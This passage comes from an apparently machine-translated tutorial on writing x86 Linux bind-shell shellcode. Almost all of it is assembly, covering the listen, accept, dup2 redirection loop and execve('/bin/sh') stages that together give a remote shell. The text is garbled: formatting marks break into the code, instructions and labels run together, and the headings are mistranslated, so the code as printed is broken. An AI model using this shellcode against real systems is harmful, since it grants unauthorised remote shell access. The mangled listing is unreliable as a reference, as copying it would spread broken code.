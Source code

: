 ## **听()**

让我们创建`listen()`外壳代码:

```
**; 3) Listen
; listen(sockfd, 0);**mov al, 0x66    ; socketcall = 102
mov bl, 0x4     ; #define SYS_LISTEN    4
push edx        ; int backlog = 0
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_LISTEN
```

## **接受()**

让我们创建`accept()`外壳代码:

```
**; 4) Accept
; acceptfd = accept(sockfd, NULL, NULL);**mov al, 0x66    ; socketcall = 102
mov bl, 0x5     ; #define SYS_ACCEPT    5
push edx        ; NULL
push edx        ; NULL
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_ACCEPT
mov edi, eax
```

## **Dup2()**

让我们创建`dup2()`外壳代码:

```
**; 5) Dup2 - Input and Output Redirection
; dup2(acceptfd, 0);    // stdin
; dup2(acceptfd, 1);    // stdout
; dup2(acceptfd, 2);    // stderr**xor ecx, ecx    ; Zero out
mov cl, 0x3     ; Set the counterloop:
xor eax, eax    ; Zero out
mov al, 0x3f    ; #define __NR_dup2 63  --> Hex: 0x3f
mov ebx, edi    ; New sockfd
dec cl          ; Decrementing the counter by 1
int 0x80jnz loop        ; Jump back to the beginning of the loop until CL is set to zero flag
```

## **Execve()**

让我们创建`execve()`外壳代码:

```
**; 6) Execve
; execve("/bin/sh", NULL, NULL);**push edx            ; NULL
push 0x68732f6e     ; "hs/n"  <-- //bin/sh
push 0x69622f2f     ; "ib//"
mov ebx, esp        ; Move stack pointer to EBX
push edx            ; NULL terminator
push ebx
mov ecx, esp        ; Move stack pointer to ECX
mov al, 0xb         ; #define __NR_execve   11  --> Hex: 0xb
int 0x80            ; Execute SYS_EXECVE
```
